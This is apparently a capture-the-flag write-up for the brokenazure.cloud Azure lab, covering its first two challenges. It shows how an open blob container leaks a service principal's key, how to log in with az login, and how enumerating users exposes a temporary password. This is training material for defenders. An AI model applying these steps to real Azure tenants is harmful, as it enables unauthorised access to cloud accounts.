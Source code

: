 ###Challenge 1
Browse to [brokenazure.cloud](brokenazure.cloud) in burp, and you'll notice there's several html files that get loaded. If you click on the header.html request, you'll see that the banner image is hosted on an azure storage account.
![](images/1.png)

As this is the first challenge, there's a good chance this storage account is unprotected. Lets connect to https://supercompanystorage.blob.core.windows.net/storagecontainer with Azure Storage Explorer:
![](images/2.png)

The name of the .PEM file seems to be the flag: SECURA{C3RT1F1C3T3}
The storage account seems to have an employee VPN configuration as well, so its likely the config and .PEM can be used for the next challenge.

###Challenge 2
https://www.brokenazure.cloud/am1b3176321b173g183721ba73/index.html

If we crack open the .PEM file in a text editor, we can see that it contains a tenant and app id:
```
-----BEGIN AZURE_DETAILS-----
Tenant id: 4452edfd-a89d-43aa-8b46-a314c219cc50
App-id: b2bfb506-aead-40d8-9e93-6f3e5d752826
-----END AZURE_DETAILS-----
```

We can collect some more information about the tenant:
https://login.microsoftonline.com/4452edfd-a89d-43aa-8b46-a314c219cc50/.well-known/openid-configuration


The .PEM also contains the private key for the tenant. The following command returns nothing so there's no password on the file:
`openssl rsa -in <.pem> -noout`


So we have the tenant ID and we have the PEM, so lets try and authenticate with the service principal:
`az login --service-priincipal -u --tenant 4452edfd-a89d-43aa-8b46-a314c219cc50 -p "SECURA{C3RT1F1C3T3}.pem"`


Use the app id as the service principal user, and we'll get a permission error for the user:
```
> az login --service-principal -u b2bfb506-aead-40d8-9e93-6f3e5d752826 --tenant 4452edfd-a89d-43aa-8b46-a314c219cc50 -p "SECURA{C3RT1F1C3T3}.pem" --verbose
No subscriptions found for b2bfb506-aead-40d8-9e93-6f3e5d752826.
```

Hmmm, okay. After some googling, this error means that the user (appid) has no permissions or IAM allocated. After looking through `az login --help`, we see the `--allow-no-subscriptions` option:

```> az login --service-principal -u b2bfb506-aead-40d8-9e93-6f3e5d752826 --tenant 4452edfd-a89d-43aa-8b46-a314c219cc50 -p "SECURA{C3RT1F1C3T3}.pem" --allow-no-subscriptions
[
  {
    "cloudName": "AzureCloud",
    "id": "4452edfd-a89d-43aa-8b46-a314c219cc50",
    "isDefault": true,
    "name": "N/A(tenant level account)",
    "state": "Enabled",
    "tenantId": "4452edfd-a89d-43aa-8b46-a314c219cc50",
    "user": {
      "name": "b2bfb506-aead-40d8-9e93-6f3e5d752826",
      "type": "servicePrincipal"
    }
  }
]
```
So now we know the account has some level of access. However, not being an azure expert, I had no idea what could possibly be relevant to look for after running `az ad sp list`, so I had to use the hint which was: `az ad user list`:
```
> az ad user list
[
  {
    "businessPhones": [],
    "displayName": "DevOps",
    "givenName": null,
    "id": "fd871932-d592-4791-989b-53dd81f8c9e5",
    "jobTitle": null,
    "mail": null,
    "mobilePhone": null,
    "officeLocation": "Password temp changed to SECURA{D4F4ULT_P4SSW0RD}",
    "preferredLanguage": null,
    "surname": null,
    "userPrincipalName": "devops@secvulnapp.onmicrosoft.com"
  },
  ...
```

So our flag is SECURA{D4F4ULT_P4SSW0RD}.

###Challenge 3
https://www.brokenazure.cloud/b87312j321h321312hdsajhdjd/index.html

###Challenge 4
###Challenge 5
###Challenge 6

**Links:**
https://securitycafe.ro/2022/04/29/pentesting-azure-recon-techniques/